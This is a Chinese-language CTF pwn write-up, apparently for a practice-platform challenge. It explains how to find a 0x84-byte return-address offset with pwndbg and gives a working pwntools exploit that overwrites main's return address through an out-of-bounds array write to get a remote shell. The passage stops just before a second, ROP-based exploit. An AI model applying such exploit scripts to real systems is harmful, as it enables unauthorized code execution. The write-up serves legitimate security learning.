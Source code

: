 这题的溢出点如果不是用`pattern.py`脚本计算而是手动计算的话有点小坑，我们的目标是修改**main**函数的返回地址到**0x080485AF**，所以我们需要找到存放**main**函数返回地址的内存与字符串数组内存的偏移量

我们注意到main函数开头和结尾的汇编代码

开头

`.text:080485D0                 lea     ecx, [esp+4]`

结尾

```
.text:080488EF                 lea     esp, [ecx-4]
.text:080488F2                 retn
```

可以知道最后**main**函数的返回值，是由**esp**决定的，而最后**esp**的值又是由**ecx**的值决定的，而**ecx**的值是由一开始**esp**的值决定的。由于我们通过静态分析，无法得知一开始时**esp**的内存位置，故当最后返回地址时**esp**的值我们也无法确定，我们需要通过动态调试才能得知一开始时**esp**的内存地址和最后返回的地址，计算得出偏移

**0xFFFFCEF8**是数组的地址，**0xFFFFCF7C**是存放`main`函数返回地址，故`pwndbg> p/x 0xffffcf7c-0xffffcef8
$1 = 0x84`，可以得出偏移量（溢出点）为**0x84**

所以Exploit为

```python
#!/usr/bin/python
#coding:utf-8
from pwn import*
system_addr=0x080485AF
leave_offset=0x84 
def write_addr(addr,va):
	io.sendline("3")
	io.recvuntil("which number to change:\n")
	io.sendline(str(addr))
	io.recvuntil("new number:\n")
	io.sendline(str(va))
	io.recvuntil("5. exit\n") 
io=remote('111.198.29.45','31725')
io.recvuntil("How many numbers you have:\n")
io.sendline("1")
io.recvuntil("Give me your numbers\n")
io.sendline("1")
io.recvuntil("5. exit\n")
# write  system_addr
write_addr(leave_offset,0XAF)
write_addr(leave_offset+1,0X85)
write_addr(leave_offset+2,0X04)
write_addr(leave_offset+3,0X08)
io.sendline("5")
io.interactive()
```

这个题有个坑点在于题目给出了`getshell`的函数，但是出题人在搭建**docker**环境时未注意，环境中只给了`sh`，在发现问题后考虑到题目依然可解就未再次更改环境。题目依然是简单的栈溢出，只不过不能直接跳转到`getshell`，需要简单的**ROP**一下，我们只需要找到`system`函数的调用地址和`bin/sh`的字符串地址即可

最终的Exploit为
